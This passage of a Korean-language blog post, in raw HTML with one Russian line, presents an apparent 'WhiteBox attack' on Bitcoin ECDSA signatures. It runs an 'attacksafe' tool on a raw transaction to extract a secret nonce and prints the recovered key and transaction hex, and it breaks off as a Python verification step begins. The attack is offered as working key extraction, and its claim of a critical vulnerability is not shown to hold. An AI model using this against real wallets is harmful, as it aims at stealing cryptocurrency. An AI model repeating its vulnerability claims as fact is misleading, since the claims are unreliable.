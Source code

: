 
<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-31-1024x359.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1613"/></figure>



<p>우리는 이 공격을 시작했고&nbsp;<code>-tool whitebox_attack</code>그 결과는 파일에 저장되었습니다.<code>SecretKey.txt</code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-32-1024x491.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1614"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xf39222231d8ddbaa7425e3c3ff4ebdc86aff1a5449df5910eae18baeb8d5bddd

RawTX = 010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<p><code>"Deployments ECDSA"</code>우리는 비트코인 ​​블록체인 트랜잭션의 치명적인 취약점을 의미하는&nbsp;비문을 봅니다 .</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0xf39222231d8ddbaa7425e3c3ff4ebdc86aff1a5449df5910eae18baeb8d5bddd</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><em>파이썬</em>&nbsp;스크립트&nbsp;로 확인하자<code>point2gen.py</code></h2>


